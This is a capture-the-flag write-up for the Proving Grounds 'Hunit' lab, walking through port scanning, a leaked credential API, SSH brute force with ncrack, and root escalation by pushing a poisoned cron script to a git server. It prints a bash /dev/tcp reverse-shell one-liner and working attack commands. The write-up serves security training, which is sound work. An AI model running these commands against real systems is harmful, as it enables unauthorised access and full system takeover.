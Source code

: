 ```yaml
---
title: "Proving grounds Practice: Hunit"
layout: post
categories: writeup
---
```


Proving grounds Practice - Hunit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
```

## 8080/tcp  open  http-proxy

File Discovery
None

## Directory Discovery
- http://192.168.213.125:8080/api/
- http://192.168.213.125:8080/api/user/

**User directory discloses some credentials.**

```json
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

### Users
rjackson
jsanchez
dademola
jwinters
jvargas

### Passwords
yYJcgYqszv4aGQ
d52cQ1BzyNQycg
ExplainSlowQuest110
KTuGcSW6Zxwd0Q
OuQ96hcgiM5o9w

## Brute force credentials for SSH

```sh
naveenj@hackerspace:|22:22|~/proving_grounds/Hunit/files$ ncrack -vvv ssh://192.168.213.125:43022 -U users -P passwords 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-10-23 22:22 EDT

Discovered credentials on ssh://192.168.213.125:43022 'dademola' 'ExplainSlowQuest110'
ssh://192.168.213.125:43022 finished.

Discovered credentials for ssh on 192.168.213.125 43022/tcp:
192.168.213.125 43022/tcp ssh: 'dademola' 'ExplainSlowQuest110'
```

## 12445/tcp open  netbios-ssn Samba smbd 4.6.2

```sh
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	Commander       Disk      Dademola Files
	IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
```

## 43022/tcp open  ssh   OpenSSH 8.4 (protocol 2.0)

SSH to user using dademola:ExplainSlowQuest110

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Hunit$ ssh -p 43022 dademola@192.168.213.125
dademola@192.168.213.125's password:ExplainSlowQuest110
Last login: Tue Oct 24 02:22:47 2023 from 192.168.45.196
[dademola@hunit ~]$ 
```

## Privilege Escalation

Download linpeas using port 8080 and note that a cron job is running.

`root         300  0.0  0.0   3644  2220 ?        Ss   02:19   0:00 /usr/bin/crond -n`

```sh
/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Feb 16  2023 cron.daily
-rw------- 1 root root    9 Feb 16  2023 cron.monthly
-rw------- 1 root root    9 Feb 16  2023 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

## Cron job

- Found id_rsa and id_rsa.pub keys for root.

## Extended capabilities

```sh
[dademola@hunit ~]$ getcap -r / 2> /dev/null
/usr/bin/newgidmap cap_setgid=ep
/usr/bin/newuidmap cap_setuid=ep
```

## Exploring cron

```sh
[dademola@hunit etc]$ cat crontab.bak 
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

- Cron running these 2 scripts every 3 and 2 minutes.
- Clone the /git-server folder to the /tmp folder for inspection
- git clone file:///git-server

```sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ ls -al
total 8
drwxr-xr-x 3 dademola dademola 120 Oct 24 03:04 .
drwxrwxrwt 5 root     root     120 Oct 24 03:04 ..
drwxr-xr-x 8 dademola dademola 260 Oct 24 03:04 .git
-rw-r--r-- 1 dademola dademola   0 Oct 24 03:04 NEW_CHANGE
-rw-r--r-- 1 dademola dademola  63 Oct 24 03:04 README
-rw-r--r-- 1 dademola dademola  34 Oct 24 03:04 backups.sh
```

The backups.sh file is a placeholder file.

To gain control over the script, we need to set up our git identity by configuring the user.name and user.email using the commands git config — global user.name “dademola” and git config — global user.email “dademola@hunit.(none)”, respectively.

```sh
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

Clone remote git server using git SSH key

```sh
naveenj@hackerspace:|23:18|~/proving_grounds/Hunit$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.213.125:/git-server
```

Add reverse shell connection code to the backups.sh file. Configure git in local machine to push the updated code.

```sh
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.name "naveenj"
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.email "naveenj@kali.(none)"
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git add -A
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git commit -m "exp"
#git push
naveenj@hackerspace:|23:25|~/proving_grounds/Hunit/git-server$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 326 bytes | 326.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.213.125:/git-server
   b50f4e5..eee611b  master -> master
```

Ensure the shell is in the /git-server folder.

Reverse shell
```sh
sh -i >& /dev/tcp/192.168.45.196/8080 0>&1
```

Once the cron job running the reverse shell with root privilege will be obtained.

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).